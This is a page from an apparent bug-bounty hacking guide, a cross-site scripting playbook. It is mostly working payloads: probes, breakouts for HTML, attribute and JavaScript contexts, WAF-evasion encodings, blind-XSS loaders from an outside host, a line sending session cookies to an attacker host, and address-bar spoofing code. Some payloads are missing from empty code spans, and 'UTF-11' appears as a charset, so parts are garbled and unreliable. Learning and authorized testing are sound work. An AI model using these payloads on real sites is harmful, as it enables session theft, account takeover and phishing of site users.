

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: Command Injection](Command%20Injection.md) >>*
---

# Cross-Site Scripting (XSS) : Master Playbook

> **Goal:** Inject malicious JavaScript into a website so that it executes in the browser of anyone who views the page.
> **Triggers:** Search fields, comment sections, user profiles, PDF generators, and URL parameters reflected in the page.
> **Context:** When a website takes your text (like your name) and puts it on the screen, your browser assumes it's just harmless text. But if you type `<script>alert(1)</script>`, the browser gets confused. It thinks the developer wrote that script and executes it immediately.
> **Hacker Mindset:** "The server is taking my text and putting it directly into the 'Screen' that another user sees. My goal is to trick the browser into thinking my text is actually a command."

### The 3 Types of XSS (Beginner Context)
*   **Reflected (The Boomerang):** You craft a malicious link. The victim clicks it, the server receives your payload in the URL, and immediately "reflects" it back onto the victim's screen.
*   **Stored (The Time Bomb):** You save your payload permanently on the server (e.g., in a forum comment). Anyone who views that comment later will execute your code.
*   **DOM-Based (The Client-Side Trap):** The payload never reaches the backend server. The vulnerability exists entirely in the victim's browser (e.g., in a vulnerable JavaScript function processing the URL hash).

---

---

## 0. Exploit Selection Search Tree
*Use this logic to decide which technique to use based on where your reflection lands:*



1.  **Does your text land between HTML tags (e.g., `<div>FUZZ</div>`)?**
    *   **Yes** → Use **[[#2.1 HTML Context (Between Tags)]]** (Try `<script>` or event handlers like ``).
2.  **Does your text land inside an attribute (e.g., `<input value="FUZZ">`)?**
    *   **Yes** → Use **[[#2.2 Attribute Context]]** (Close quotes with `"` or add handlers like `onfocus=alert(1) autofocus`).
3.  **Does your text land inside a JavaScript variable?**
    *   **Yes** → Use **[[#2.3 JavaScript Context]]** (Break out with `';` or use escape-friendly payloads).
4.  **Is the reflection occurring via a DOM sink (e.g., `innerHTML`, `eval`)?**
    *   **Yes** → Use **[[#2.4 DOM-Based XSS (The Client-Side Trap)]]** (Trace with DOM Invader).
5.  **Is the payload stored on the server and triggered for other users (Time Bomb)?**
    *   **Yes** → Use **[[#3.1 Blind XSS (The Long Game)]]** (Check for reflections in Admin panels).
6.  **Are tags like `<script>` filtered? Can you use modern SVGs or Event Handlers?**
    *   **Yes** → Use **[[#2.5 SVG & File-Based XSS Vectors]]**.
7.  **Is the reflection inside a JSON or API response (`Content-Type: application/json`)?**
    *   **Yes** → Use **[[#4.1 Filter Evasion]]** (Try breaking character limits).
8.  **Can you upload an SVG file that executes script when opened directly?**
    *   **Yes** → Use **[[#2.5 SVG & File-Based XSS Vectors]]** (SVG/XML context).
9.  **Are quotes escaped with a backslash (`\`)? Can you bypass using encoding?**
    *   **Yes** → Use **[[#2.3 JavaScript Context]]** (try `String.fromCharCode`).
10. **Is the app using a Template Engine (Jinja/Twig)? Can you escalate to SSTI?**
    *   **Yes** → See **[[SSTI.md]]**.
11. **Can you "Blind" the XSS to capture internal admin cookies?**
    *   **Yes** → Use **[[#3.1 Blind XSS (The Long Game)]]** (OAST / XSS Hunter).
12. **Are you testing a PDF generator? Can you inject script into the generated doc?**
    *   **Yes** → See **[[#3.2 OOB Exfiltration (Data Theft)]]**.
13. **Are tags like `<script>` or `` blocked by a firewall?**
    *   **Yes** → Pivot to **[[#4. WAF Evasion & Bypasses]]** (Use encoding and rare event handlers).

---

## 1. Methodology & UX Impact Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Reflected XSS** | A mirror that bounces your code back into the viewer's eyes. | URL parameter reflects in source code. | `alert(document.domain)` pops up immediately. | **Medium/High** |
| **Stored XSS** | A "trap" hidden in the database for later victims. | Payload saved in comments/profile. | Code triggers every time the page is viewed. | **High/Critical** (P1) |
| **DOM-Based** | A client-side confusion where the browser tricks itself. | Found via `innerHTML` or `eval()` sinks. | Payload executes without hitting the server. | **Medium/High** |
| **Blind XSS** | Shooting an arrow over a wall into an unseen admin panel. | Payload fires in internal dashboards. | External listener (XSS Hunter) logs a hit. | **Critical** (P1) |

---

---

## 1. Detection & Fingerprinting
> **Goal:** Figure out exactly where your text lands in the HTML document so you can figure out how to "break out" of it.
> **Triggers:** Any input box where the text you type appears on the page after you hit submit.
> **Context:** Before you write a complex payload, you just type a weird string like `xss12345` and look at the source code. Does it land in a `<h1>` tag? Inside a `"` quote? Inside a JavaScript variable? Your breakout strategy changes depending on where you land.
> **Hacker Mindset:** "I'm going to type a tracker word like `FUZZ` and search for it in the source code. Once I find its cage, I'll know which lockpick to use."

### 1.1 What to Look For

*   **Reflected Parameters**: Look for `?q=`, `?s=`, `?query=`, `?id=`.
*   **Persistent Data**: Profile bios, shipping addresses (Blind XSS), and support tickets.
*   **Dynamic UI**: Error messages that echo your failed URL or input.

### 1.2 Core Discovery & Automation Pipelines
*   **NahamSec Workflow**:
    *   **Step 1: URL Extraction**: `gau target.com | grep '?' | uro > parameterized.txt`
    *   **Step 2: Fuzzing**: Use tools like `kxss` or `Dalfox` on the parameterized lists.
*   **XSSer Tactical Bypass**:
    *   **Automation**: `xssers -u "http://target.com/search.php?q=" --auto --reverse-check`
    *   **Why?**: Systematic testing of encoding combinations (Hex, Dword) to evade WAF/String filters.
*   **JS Variable Discovery (jsvarxss)**:
    *   **Technique**: Use a bash function to automate reflection testing on variables found in JS.
    *   **Payload**: `jsvarxss -u "https://target.com/app.js"` (Extracts and probes sub-parameters).

### 1.3 Initial Probes
| Step | Payload | Goal |
| :--- | :--- | :--- |
| **Simple** | `<script>confirm(1)</script>` | Check for basic tag reflection. |
| **Attribute** | `" onmouseover="confirm(1)"` | Check for attribute breakout. |
| **SVG** | `<svg/onload=confirm(1)>` | Bypassing simple `<script>` filters. |
| **JS** | `';confirm(1)//` | Breaking out of a JS variable. |

---

## 2. Exploitation Techniques

### 2.1 HTML Context (Between Tags)
> **Goal:** Break out of normal text HTML tags and force the browser to run JavaScript.
> **Triggers:** Your text lands between basic elements like `<div>FUZZ</div>` or `<b>FUZZ</b>`.
> **Context:** This is the classic XSS scenario. The system just drops your text directly into the page. The easiest way to execute code is to use a `<script>` tag, but if that's blocked, we use image tags that trigger code when they "fail" to load.
> **Hacker Mindset:** "They won't let me use the `<script>` tag. That's fine. I'll ask the browser to load an image that doesn't exist, and tell it to run my code as the 'error handler'."

If `<script>` is blocked, use "Self-Triggering" tags:
*   **Media Payloads**:
    ```html
    
    <video><source onerror=alert(1)>
    ```
*   **Interactive Payloads**:
    ```html
    <details open ontoggle=alert(1)>
    <select autofocus onfocus=alert(1)>
    ```

### 2.2 Attribute Context
> **Goal:** Break out of an HTML attribute (like `<input value="FUZZ">`) to execute code.
> **Triggers:** Your text lands inside the quotes of an HTML element.
> **Context:** You are trapped inside an existing tag. You can't just write `<script>`, because the browser thinks it's part of the value. You have to "close the quote" yourself `"` and then add your own attributes, like `onmouseover`.
> **Hacker Mindset:** "I'm trapped in the `value` box. I'll type `" autofocus onfocus=alert(1) ` to close their box early and force the browser to immediately focus on my malicious code."

Stay inside the attribute if you can't use `>`:
*   **Event Handlers**: ` " onfocus="alert(1)" autofocus `
*   **Template Literals**: `` `onmouseover=alert(1)` ``
*   **URL Context**: `javascript:alert(1)` in `href` or `src`.

### 2.3 JavaScript Context
> **Goal:** Break out of a pre-existing JavaScript variable that the developer wrote.
> **Triggers:** Your text lands inside `<script> var name = 'FUZZ'; </script>`.
> **Context:** You are already inside the golden zone (a script tag). You just need to escape the quotation marks the developer put around your name so you can write actual JavaScript commands.
> **Hacker Mindset:** "The developer wrote `var name = 'Jawad';`. If I make my name `';alert(1)//`, their code becomes `var name = '';alert(1)//;` and my code runs perfectly."

*   **Breakout**: `';alert(1)//`
*   **Template Strings**: `${alert(1)}` if input is inside `` `${input}` ``.
*   **Unicode Escapes**: If `alert` is blocked, use `\u0061lert(1)`.

---

## 3. Advanced Persistence & OOB
> **Goal:** Exploit "Blind XSS" where your payload executes on an internal database or admin panel that you cannot see.
> **Triggers:** Contact forms, support tickets, shipping logs, or User-Agent headers stored for analytics.
> **Context:** You type a payload in the "Contact Support" box, but nothing happens. However, when the administrator opens their logging dashboard tomorrow, your payload triggers. You must use "Out of Band" (OOB) techniques so the payload phones home and tells you it worked.
> **Hacker Mindset:** "I'm planting a time bomb. I won't know if it explodes today, but I'll set it to email me a screenshot of the admin's screen when they finally read my 'ticket'."

### 3.1 Blind XSS (The Long Game)
Inject payloads where admins or support staff will see them:
*   **Target Fields**: User-Agent, Referer, Feedback forms, "Contact Us" pages.
*   **Best Payload**: `<script src="https://your-xss-hunter.com/x"></script>`
*   *Strategy*: Wait for the staff to open their internal dashboard (which might be less secure than the public site).

### 3.2 OOB Exfiltration (Data Theft)
Instead of `alert(1)`, steal the cookies:
```javascript
fetch('https://attacker.com/log?c=' + btoa(document.cookie))
```
*# Sends the victim's session cookie to your server.*

### 3.3 SVG Vectors
SVGs are powerful because they are XML-based:
*   **Direct**: `<svg onload=alert(1)>`
*   **Animated**: `<svg><animate onbegin=alert(1) attributeName=x/></svg>`

---

## 4. WAF Evasion & Bypasses
> **Goal:** Sneak your `<script>` or `alert()` payloads past the Web Application Firewall.
> **Triggers:** Receiving a `403 Forbidden` when attempting basic XSS payloads.
> **Context:** The WAF looks for exact matches of dangerous strings like `<script>`. By slightly changing the capitalization or using URL encoding, you can often make the payload look like gibberish to the WAF, but the browser will still understand and execute it.
> **Hacker Mindset:** "The firewall is looking for the English word 'alert'. I'll speak to the browser in Hexadecimal `\x61lert` so the firewall doesn't recognize the word."

### 4.1 Filter Evasion
*   **Case Sensitivity**: `<sCrIpT>`
*   **Null Byte**: `<scr%00ipt>`
*   **Double Encoding**: `%253cscript%253e`
*   **Whitespace**: `<svg   onload=alert(1)>`

### 4.2 Encoding Tricks & Rotation
1.  **URL Encode**: `%3Cscript%3Ealert(1)%3C%2Fscript%3E`
2.  **Double URL Encoding**: `%253Cscript%253Ealert(1)%253C%2Fscript%253E`
3.  **HTML/Hex Entities**: `&#x3C;script&#x3E;`
4.  **Base64 (Data URI)**: `<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>`
5.  **UTF-11 & Rare Charsets**: Bypass rigorous ASCII filters.

---

## 5. Target Chaining & Pivots
> **Goal:** Upgrade your XSS from an annoying pop-up to a critical account takeover.
> **Triggers:** You successfully popped an `alert(1)` and want to prove maximum impact to the bug bounty program.
> **Context:** Popping an alert proves the vulnerability exists, but stealing session cookies, bypassing CSRF protections to change passwords, or reading local storage proves the *impact*. XSS is the skeleton key to the client's browser.
> **Hacker Mindset:** "I have code execution in their browser. I'm going to write a script that silently reads their CSRF token and submits a request to change their account email to mine."

*   **XSS → CSRF**: Use XSS to bypass CSRF tokens by reading them from the DOM and executing a privileged request (e.g., change email).
*   **XSS → Phishing**: Replace the login form with an attacker-controlled one to steal credentials.
*   **XSS → SSRF**: If the application has a "View Page as Image" or "PDF Export" feature, inject XSS to trigger an internal request from the backend server.
*   **XSS → Information Disclosure**: Leak the entire DOM or local storage contents to find secrets/API keys.

---

## 6. XSS Toolbox

| Tool | Primary Command |
| :--- | :--- |
| **Dalfox** | `dalfox url http://target.com/page?q=FUZZ` |
| **XSStrike** | `python3 xsstrike.py -u <url>` |
| **DOM Invader** | Burp Extension (Excellent for finding source-to-sink paths). |
| **XSS Hunter** | Hosted platform for Blind XSS. |

## 7. Multi-Disciplinary Exploitation Vectors (Legacy Synthesis)

### 7.1 CMS-Specific & Framework XSS
*   **WordPress (Relevanssi)**: Reflected XSS targeting admin context via `onload` handlers. Enumeration via `wpscan` reveal vulnerable plugin versions.
*   **MyBB (Downloads)**: Stored XSS in the "title" field. Attribute breakout (`ONLOAD`) used to avoid SQL errors triggered by quotes.
*   **SVG XSS Execution**: XSS payloads like `<svg onload=top['al'+'ert'](document.cookie)>` can execute within vulnerable administrative dashboards processing SVG uploads.

### 7.2 Address Bar Spoofing & UI Deception
*   **Timing-Based Hijack (`setInterval`)**: Use a JS loop to repeatedly reload or push states to history, preventing the browser from updating the address bar.
    ```javascript
    setInterval(function(){ window.location.replace("https://legit-site.com/login"); }, 10);
    ```
*   **RTLO (Right-to-Left Override)**: Use `U+202E` (`%E2%80%AE`) to reverse URL display: `http://legit.com/‮moc.relirorp.www//:ptth` displays as `http://www.proreiler.com/...`.

### 7.3 UXSS & SOP Bypasses
*   **Android WebView UXSS (CVE-2014-6041)**: Handling of null bytes in attribute names. 
    * ` <iframe src="https://victim.com" onload="this.src='javascript:alert(document.domain)'"></iframe> `
*   **Chrome Extension UXSS**: Extensions with `web_accessible_resources` using `eval()` or `innerHTML` on controlled parameters.

---

## 8. Resources
*   [PortSwigger XSS Labs](https://portswigger.net/web-security/cross-site-scripting)
*   [PayloadsAllTheThings - XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Filter%20Evasion)
*   [HackTricks - XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
*   [XSS Hunter](https://xsshunter.com/) - Essential for Blind XSS.

---
---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: Command Injection](Command%20Injection.md) >>*
